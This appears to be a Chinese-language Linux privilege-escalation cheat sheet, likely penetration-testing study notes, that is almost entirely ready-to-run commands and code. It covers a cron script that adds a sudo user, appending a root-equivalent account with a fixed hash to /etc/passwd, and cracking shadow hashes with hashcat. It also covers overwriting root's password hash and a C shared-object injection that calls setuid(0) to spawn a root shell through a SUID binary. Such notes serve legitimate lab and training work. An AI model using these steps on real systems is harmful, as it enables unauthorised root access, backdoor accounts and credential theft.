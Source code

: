 ```
ls -lah /etc/cron*
```
```
cat /etc/cron* /etc/at* /etc/anacrontab/var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
```
- 排程提權腳本
```
echo -ne "/sbin/adduser<user>; echo '<user>:<password>' | /usr/sbin/chpasswd; /sbin/adduser<user>sudo" > /usr/local/sbin/cron-logrotate.sh
```
## /etc/password竄改
- 用openssl製造密碼
```
openssl passwd w00t
```
- 寫入/etc/passwd
```
echo 'root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash' >> /etc/passwd
```
## /etc/shadow可檢視
- 合併passwd及shadow
```
unshadow passwd shadow > unshadow
```
- 用hashcat破解
```
hashcat -m 1800 unshadow /usr/share/wordlists/rockyou.txt
```
## /etc/shadow可以修改
>[!重點]
>產出的內容寫到root帳號的密碼裡面
```
mkpasswd -m sha-512 hacker
```
## SUID/SGID 利用
>[!warning]
>除了GTFOBins，也要搜尋弱點程式。
```
find / -perm -u=s -type f 2>/dev/null
```
```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
## SUID/SGID - Shared Object Injection
- 尋找遺失的.so檔案
```
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```
- 編寫C語言
``` c
#include <stdio.h> 
#include <stdlib.h> 
static void inject() __attribute__((constructor)); 
void inject() { 
	setuid(0); 
	system("/bin/bash -p"); 
}
```
* 編譯C語言
```
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```
